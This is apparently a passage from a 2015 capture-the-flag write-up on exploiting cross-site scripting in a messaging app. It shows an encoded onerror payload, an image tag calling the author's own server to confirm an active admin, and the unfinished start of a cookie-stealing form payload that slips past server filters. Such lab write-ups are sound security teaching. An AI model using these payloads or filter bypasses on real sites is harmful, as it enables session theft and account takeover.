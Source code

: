 ```
<img/src="./"/onerror="&#0097;&#00108;&#00101;&#00114;&#00116;&#0040;&#0039;&#0088;&#0083;&#0083;&#0039;&#0041;">
```

![XSS 1](/houseccon-2015-august/pics/xss-1.png)


Our next task, is to test if our "Active" users are actually active. Sending a simple `<IMG>` tag to `ctaroot` trying to access an image on my AWS instance gives a successful request.

```
<IMG src="http://my.aws.instance/ctaroot.png"/>
```

```
# On AWS instance
$ python -m SimpleHTTPServer 80

65.128.52.100 - - [31/Aug/2015 19:15:13] "GET /ctaroot.png HTTP/1.1" 404 -
```

Awesome, so we do have "Active" users. As per typical XSS, let's try and steal the cookie for `ctaroot`. The idea being to submit an attacker generated form with the `ctaroot` cookie inside.

Below is the XSS payload:
```html
<img/src="./"onerror="BELOW JAVASCRIPT"/>
```

```javascript
// Create a new form and resubmit to 'send'
// the document.cookie of the current user
var/**/form/**/=/**/document.createElement('form');
form.setAttribute('method','post');
form.setAttribute('action','send');
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','to');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),'admin');
form.appendChild(hiddenField);
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','body');
// 'value' is stripped by server
// 'ip' is stripped by server
```